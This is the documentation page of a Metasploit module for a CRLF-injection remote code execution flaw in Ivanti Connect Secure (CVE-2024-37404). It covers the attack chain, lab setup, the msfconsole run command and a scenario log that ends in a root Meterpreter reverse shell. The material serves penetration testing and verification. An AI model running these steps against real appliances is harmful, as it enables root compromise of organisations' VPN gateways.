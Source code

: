 ## Vulnerable Application

This module exploits a CRLF injection vulnerability in Ivanti Connect Secure to
achieve remote code execution (CVE-2024-37404). Versions prior to 22.7R2.1 are
vulnerable. Note that Ivanti Policy Secure versions prior to 22.7R1.1 are also
vulnerable but this module doesn't support this software.

Valid administrative credentials are required. A non-administrative user is also
required and can be created using the administrative account, if needed.

Finally, the `Client Log Upload` feature needs to be enabled. This can also
be done using the administrative interface (see the Installation Steps section
below), if it is not enabled already.

### Process Overview

First, the module will log into the administrative interface and check if the version
is vulnerable. Then, it will connect to the user interface using non-privileged
credentials and upload a log file archive containing the payload. This file is
stored as a known path on the server, which can be retrieved from the
administrative interface. Then, it leverages the CRLF vulnerability by creating
a Certificate Signing Request and passing a specially crafted OpenSSL
configuration. This configuration instructs OpenSSL to use a custom
cryptographic engine, which points to the log file path (our payload). The
payload is immediately executed, giving RCE as the root user on the appliance.

This has been successfully tested against Ivanti Connect Secure version 22.3R1 (build 1647).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

Log into to the admin interface (https:/<IP>/admin) to proceed with the following requirements:

#### Create a normal user
- In the `Authentication` menu, select `Auth. Servers`.
- Select the `System Local` `Authentication/Authorization Servers` or any
  server with the type `Local Authentication`. Don't select the
  `Administrators` server since we need a non-administrative account.
- Click on the `Users` tab and then `New`.
- Fill the registration form and click `Save Changes`.

#### Enable Client Log
- Go to `Users` > `User Roles` and click on the `Users` role.
- Go to `General` > `Session Options`.
- Select `Enable Upload Logs` under the `Upload logs` section.
- Click `Save Changes`.


## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_rce_cve_2024_37404`
1. Do: `run verbose=true lhost=<local host> rhosts=<remote host> admin_username=<admin username> admin_password=<admin password> username=<normal user> password=<user password>`
1. You should get a Meterpreter session
1. Make sure the admin and the normal user have been logged out by logging in
   the web interfaces with a web browser (you should have any warning saying a
   session is already active)
1. Make sure the cleanup has been done correctly by checking `System` > `Log/Monitoring`


## Options

### ADMIN_USERNAME
Administrative username to authenticate with.

### ADMIN_PASSWORD
Administrator password to authenticate with.

### USERNAME
Normal user username to authenticate with.

### PASSWORD
Normal user password to authenticate with.


## Scenarios

### Ivanti Connect Secure version 22.3R1 (build 1647)

```
msf exploit(linux/http/ivanti_connect_secure_rce_cve_2024_37404) > run verbose=true lhost=192.168.211.69 rhosts=192.168.211.200 admin_username=msfadmin admin_password=1234567890 username=msfuser password=1234567890

[*] Started reverse TCP handler on 192.168.211.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Login to the administrative interface with username 'msfadmin' and password '1234567890'...
[!] The admin msfadmin is already logged in
[*] Getting the version...
[+] Found version 22.3R1 (build 1647)
[+] The target appears to be vulnerable.
[*] Uploading the payload...
[*] Login to the user interface with username 'msfuser' and password '1234567890'...
[*] Uploading the log file...
[*] Logging the user out...
[*] Getting the log file name...
[*] Triggering the payload...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 192.168.211.200
[*] Cleaning up...
[*] Deleting the log file (payload)...
[*] Logging the administrator out...
[*] Meterpreter session 3 opened (192.168.211.69:4444 -> 192.168.211.200:50210) at 2024-10-29 16:43:35 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.211.200
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
